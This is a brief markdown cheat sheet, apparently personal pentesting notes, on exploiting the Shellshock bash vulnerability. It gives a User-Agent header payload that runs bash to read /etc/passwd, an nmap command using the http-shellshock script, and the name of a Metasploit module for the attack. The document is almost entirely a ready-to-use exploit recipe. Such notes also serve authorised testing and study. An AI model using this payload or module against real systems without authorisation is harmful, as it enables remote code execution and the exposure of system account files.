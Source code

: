 # Shellshock

## Exploit manually 

- Attackers can abuse shellshock bug by changing User-Agent to have RCE on the target

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

## nmap

```bash
nmap --script=http-shellshock --script-args "http-shellshock.uri=PATH"
```


## msfconsole

```ruby

 use exploit/multi/http/apache_mod_cgi_bash_env_exec

```
